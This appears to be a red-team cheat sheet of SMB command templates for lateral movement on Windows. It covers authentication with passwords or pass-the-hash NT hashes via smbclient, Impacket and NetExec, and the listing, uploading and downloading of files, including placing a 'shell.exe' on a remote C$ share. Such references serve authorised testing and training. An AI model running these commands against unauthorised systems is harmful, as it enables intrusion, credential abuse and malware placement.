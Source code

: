 # Unix Shell

Search Tag(s): #lateral-movement #impacket #windows

## 01 - Authenticate

### 1.1 - Samba Suite Utils

`$ smbclient -U "[<domain_name>/]<username>%<password>" //<IP>/c$`

- Pass the Hash

`$ smbclient -U "[<domain_name>/]<username>" --pw-nt-hash <nt_hash> //<IP>/c$`

### 1.2 - Impacket

`$ smbclient.py [<domain>/]<username>:<password>@<IP>`

- Pass the Hash

`$ smbclient.py -hashes :<nt_hash> [<domain>/]<username>@<IP>`

### 1.3 - NetExec

#### 1.3.1 - Authentication

`$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth]`

- Pass the Hash

`$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain_name> | --local-auth]`

## 02 - List Files and Directories

### 2.1 - Samba Suite Utils

`smb: \> ls`

### 2.2 - Impacket

```
# use c$

# ls
```

### 2.3 - NetExec

`$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] --shares`

## 03 - Copy Files

### 3.1 - Samba Suite Utils

- Upload file

`smb: \> put /path/to/local/shell.exe`

- Download file

`smb: \> get \path\to\remote\file.txt`

### 3.2 - Impacket

- Upload file

```
# put /path/to/local/shell.exe
```

- Download file

```
# get \path\to\remote\file.txt
```

### 3.3 - NetExec

- Upload file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain_name> | --local-auth] --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe
```

- Download file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain_name> | --local-auth] --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt
```

---
## References

- [NetExec Wiki: Get and Put Files](https://www.netexec.wiki/smb-protocol/get-and-put-files)
